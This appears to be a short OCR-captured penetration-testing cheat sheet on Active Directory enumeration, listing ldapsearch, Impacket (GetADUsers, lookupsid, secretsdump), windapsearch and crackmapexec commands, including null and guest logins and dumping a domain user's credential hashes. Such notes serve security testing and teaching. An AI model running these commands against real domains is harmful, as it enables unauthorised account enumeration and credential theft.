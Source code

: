 # Note: Be careful with brute forcing AD as you can disable user accounts due to the Account Lockout Policy. 


# Anonymous Credential LDAP Dumping: 

- ldapsearch -LLL -x -H ldap://<domain fqdn> -b ‘’ -s base ‘(objectclass=*)’

Impacket GetADUsers.py (Must have valid credentials)

- GetADUsers.py -all <domain\User> -dc-ip <DC_IP>

Impacket lookupsid.py:

- /usr/share/doc/python3-impacket/examples/lookupsid.py username:password@172.21.0.0

Impacket Secretdump:

python3 secretdump.py 'breakme.local/Administrator@172.21.0.0' -just-dc-user anakin

Windapsearch:

https://github.com/ropnop/windapsearch 

- python3 windapsearch.py -d host.domain -u domain\\ldapbind -p PASSWORD -U

Crackmapexec:

- cme ldap <IP> -u "" -p "" -d <DOMAIN>

- cme ldap <IP> -u "Guest" -p "" -d <DOMAIN>

## References: 

- PayloadAllTheThings: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#most-common-paths-to-ad-compromise

- Attacking Active Directory: 0 to 0.9:
https://zer1t0.gitlab.io/posts/attacking_ad/